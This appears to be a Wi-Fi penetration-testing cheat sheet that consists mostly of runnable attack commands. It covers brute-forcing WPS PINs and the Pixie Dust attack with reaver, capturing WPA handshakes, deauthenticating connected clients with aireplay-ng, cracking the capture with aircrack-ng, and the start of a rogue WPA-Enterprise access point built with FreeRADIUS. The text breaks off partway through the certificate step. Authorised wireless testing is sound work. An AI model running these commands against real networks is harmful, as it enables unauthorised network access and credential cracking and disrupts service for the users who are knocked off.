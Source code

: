 ## WPS

1. Identify AP with WPS
2. Bruteforce WPS pin

```bash
# identify APs using WPS
wash -i wlan0
# 5GHz
wash -i wlan0 -5

# PixieWPS attack
sudo reaver -c <channel> -b <BSSID> -i wlan0 -vvv -K

# bruteforce WPS pin
sudo reaver -c <channel> -b <BSSID> -i wlan0 -vvv
```

## WPA/WPA2 - PSK

1. Recon and identify AP
2. Zoom in to AP and capture to file
3. Deauthentication attack to force 4-way handshake
4. Crack

```bash
# listen for handshake and capture to file
sudo airodump-ng --bssid <AP bssid> -c <channel> -w <cap file> wlan0

# deauth every client connected to a BSSID
sudo aireplay-ng --deauth <no. deauth frames> -a <bssid> wlan0mon
# deauth a singular client
sudo aireplay-ng --deauth <no. deauth frames> -a <bssid> -c <client_MAC> wlan0mon

# Crack the capture file
aircrack-ng <file.cap> -w <wordlist.txt>
```

## WPA/WPA2 - Enterprise

[https://github.com/dh0ck/Wi-Fi-Pentesting-Cheatsheet/blob/main/Wifi/cheatsheet/6 - WPA enterprise.md](https://github.com/dh0ck/Wi-Fi-Pentesting-Cheatsheet/blob/main/Wifi/cheatsheet/6%20-%20WPA%20enterprise.md)

1. Fake AP with RADIUS for authentication
    - Modify [certificate_authority] in ca.cnf and [server] server.cnf to match what is used by the current AP
    - Generate certificates
        
        ```bash
        # in /etc/freeradius/3.0/certs
        rm dh
        make
        ```
        